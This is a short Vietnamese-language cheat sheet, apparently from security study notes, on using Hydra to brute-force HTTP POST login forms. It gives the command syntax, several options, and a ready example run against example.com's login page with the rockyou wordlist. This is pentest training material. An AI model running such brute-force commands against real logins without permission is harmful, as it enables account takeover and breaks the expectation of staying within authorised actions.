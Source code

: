 ```Bash
hydra -L <username list> -P <passlist> <host> http/s-post-form "/path:field1=^USER^&field2=^PASS^: fail_string"
```
> **Lưu ý**: **-L** và **-P** có thể được viết thường thành **-l** và **-p** nếu đã có sẵn 1 trong 2 trường
- **Các options**:
    - -f : tìm được password dừng luôn
    - -F : in toàn bộ respond từ server khi login thất bại; nên dùng chung với -vV
    - -t <số lượng> : số luồng chạy cùng lúc
    - **!** dùng để tạo phủ định với fail_string
> [!important]
> 
> ## Ví dụ:
> 
> ```Bash
> hydra -l admin -P /usr/share/wordlist/rockyou.txt example.com http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -t 30
> ```
> 
> > Muốn biết path nên bắt request trước (**Burp Suite**/**CAIDO**)
